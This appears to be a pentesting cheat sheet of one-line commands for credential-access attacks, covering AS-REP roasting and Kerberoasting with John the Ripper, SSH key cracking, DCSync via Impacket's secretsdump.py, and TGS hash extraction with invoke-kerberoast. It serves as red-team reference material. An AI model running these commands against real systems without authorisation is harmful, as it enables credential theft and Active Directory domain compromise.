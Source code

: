 
# john
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `john --wordlist=passwords_file as_rep_response_file`

## crack as_rep_response_file (kerberoast)
- `john --format=krb5tgs --wordlist=passwords_file AS_REP_responses_file`

## mangle wordlist
- `john --wordlist=month --rules --stdout > new_list`

## crack ssh keys
- `/usr/share/john/ssh2john.py id_rsa > hash.john`
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash.john`

---

# secretsdump.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## dcsync
- `/usr/share/doc/python3-impacket/examples/secretsdump.py username@target-ip -dc-ip target-ip`

---

# invoke-kerberoast.ps1
- service: kerberos
- tactics: credential_access
- suites: powershell_empire

## execute invoke-kerberoast.ps1
- `invoke-kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>`

---

# gettgt.py
- service: kerberos
- tactics: credential_access
- suites: impacket
